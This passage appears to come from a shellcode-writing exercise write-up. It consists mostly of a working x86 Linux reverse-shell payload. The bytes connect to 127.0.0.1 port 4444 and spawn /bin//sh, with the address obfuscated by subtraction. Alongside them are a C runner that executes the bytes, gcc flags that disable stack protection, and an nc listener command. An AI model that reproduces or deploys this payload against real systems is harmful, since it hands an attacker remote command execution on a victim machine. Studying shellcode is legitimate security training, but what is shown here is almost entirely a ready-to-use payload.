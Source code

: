 The shellcode output:

```c
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xdb\xf7\xe3\xb0\x66\xb3\x03\xb9\x80\x02\x02\x03\x81\xe9\x01\x02\x02\x02\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x5b\x31\xc0\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xdb\xf7\xe3\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
```

As we can see there are no NULL-BYTES within the shellcode generated.

I will insert the shellcode on the generic shellcode c program runner presented :

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xdb\xf7\xe3\xb0\x66\xb3\x03\xb9\x80\x02\x02\x03\x81\xe9\x01\x02\x02\x02\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x5b\x31\xc0\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xdb\xf7\xe3\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"


main()
{

       printf("Shellcode Length:  %d\n", strlen(code));

       int (*ret)() = (int(*)())code;

       ret();

}
```

Creating the executable
```c
gcc shellcode.c -fno-stack-protector -z execstack -o execreverse_shell
```

Running the shellcode:
```c
./execreverse_shell
```
Opening my host to incoming connection:

```c
nc -lvnp 4444
```
